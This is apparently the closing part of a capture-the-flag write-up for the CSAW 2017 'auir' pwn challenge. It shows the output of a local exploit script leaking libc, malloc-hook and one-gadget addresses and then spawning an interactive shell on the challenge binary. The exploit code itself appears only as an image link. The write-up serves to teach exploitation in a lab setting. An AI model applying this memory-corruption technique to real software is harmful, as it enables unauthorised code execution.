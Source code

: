 When we run it:

```
$	python exploit.py 
[!] Could not find executable 'auir' in $PATH, using './auir' instead
[+] Starting local process './auir': pid 27352
[*] '/Hackery/csaw17/auir-pwn-200/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] leak is: 0x7f8126c2fb78
[*] System is: 0x7f81268b0390
[*] Libc is: 0x7f812686b000
[*] Malloc Hook: 0x7f8126c2fb10
[*] One Shot: 0x7f812695c117
[*] Switching to interactive mode
[*]BREAKING....
$ ls
auir  exploit.py    peda-session-auir.txt  peda-session-ls.txt          readme.md
core  libc-2.23.so  peda-session-dash.txt  peda-session-w.procps.txt  sh
$ w
 15:57:32 up  3:39,  1 user,  load average: 0.53, 0.38, 0.56
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               12:44    3:13m  8:08   0.04s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ exit
[*]SUCCESSFUL!
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>$ 5
[*]NOOBS CAN'T PROTECT AUIR....
[*] Process './auir' stopped with exit code 0 (pid 27352)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

Just like that, we popped a shell!
